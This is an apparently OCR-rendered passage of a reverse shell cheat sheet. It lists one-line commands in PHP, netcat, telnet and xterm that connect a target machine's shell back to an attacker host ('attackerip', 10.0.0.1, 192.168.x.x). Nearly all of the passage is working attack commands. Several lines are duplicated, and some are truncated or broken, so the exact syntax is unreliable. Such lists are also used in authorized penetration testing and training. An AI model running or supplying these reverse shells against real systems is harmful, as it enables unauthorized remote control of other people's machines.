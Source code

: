 **PHP:  
**

This code assumes that the TCP connection uses file descriptor 3.

php -r ‘$sock=fsockopen\(“10.0.0.1″,1234\);exec\(“/bin/sh -i &lt;&3 &gt;&3 2&gt;&3″\);’

php -r ‘$sock=fsockopen\(“10.0.0.1″,1234\);exec\(“/bin/sh -i &lt;&3 &gt;&3 2&gt;&3″\);’

If you would like a PHP reverse shell to download, try this link on pentestmonkey.net -&gt; LINK

**NETCAT:  
**

Other possible Netcat reverse shells, depending on the Netcat version and compilation flags:

nc -e /bin/sh attackerip 4444

nc -e /bin/sh 192.168.37.10 443

If the -e option is disabled, try this

mknod backpipe p && nc 192.168.23.10 443 0&lt;backpipe \| /bin/bash 1&gt;backpipe

mknod backpipe p && nc attackerip 8080 0&lt;backpipe \| /bin/bash 1&gt;backpipe

/bin/sh \| nc attackerip 4444

/bin/sh \| nc 192.168.23.10 443

rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/

rm -f /tmp/p; mknod /tmp/p p && nc 192.168.23.10 444 0/tmp/

If you have the wrong version of netcat installed, try

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 192.168.23.10 &gt;/tmp/f

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2&gt;&1\|nc 10.0.0.1 1234 &gt;/tmp/f

**TELNET:  
**

If netcat is not available or /dev/tcp

mknod backpipe p && telnet attackerip 8080 0&lt;backpipe \| /bin/bash 1&gt;backpipe

mknod backpipe p && telnet attackerip 8080 0&lt;backpipe \| /bin/bash 1&gt;backpipe

**XTERM:  
**

Xterm is the best..

To catch incoming xterm, start an open X Server on your system \(:1 – which listens on TCP port 6001\). One way to do this is with Xnest: It is available on Ubuntu.

Xnest :1 \# Note: The command starts with uppercase X

Xnest :1 \# Note: The command starts with uppercase X

Then remember to authorise on your system the target IP to connect to you:

xterm -display 127.0.0.1:1 \# Run this OUTSIDE the Xnest, another tab xhost +targetip \# Run this INSIDE the spawned xterm on the open X Server

